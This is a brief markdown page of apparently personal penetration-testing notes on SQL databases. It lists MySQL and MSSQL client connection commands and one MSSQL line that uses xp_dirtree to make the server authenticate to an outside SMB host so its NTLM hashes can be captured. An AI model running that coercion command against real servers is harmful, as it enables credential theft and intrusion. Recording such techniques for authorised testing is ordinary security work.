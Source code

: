 +++
title = "Pentest - SQL"
author = ["kdb"]
tags = ["sql", "pentest"]
draft = false
+++

## MySQL {#mysql}

`mysql -u fooUser -p -h 44.55.66.77`


## MSSQL {#mssql}

impacket-mssqlclient -port 1433 domain/user:password@host

capture NTLM hashes:
`SQL> exec master.sys.xp_dirtree "\\10.10.16.2\test"`
